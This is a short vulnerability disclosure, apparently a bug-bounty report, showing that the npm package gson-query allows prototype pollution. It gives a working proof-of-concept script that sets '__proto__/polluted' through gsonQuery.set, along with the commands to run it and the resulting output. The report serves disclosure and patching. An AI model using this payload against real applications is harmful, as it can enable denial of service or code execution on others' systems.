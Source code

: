 # Description

`gson-query` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var gsonQuery = require("gson-query")
var obj = {}
console.log("Before : " + obj.polluted);
gsonQuery.set(obj,'__proto__/polluted','Yes! Its Polluted');
var obj1 ={}
console.log("After : " + obj1.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i gson-query # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
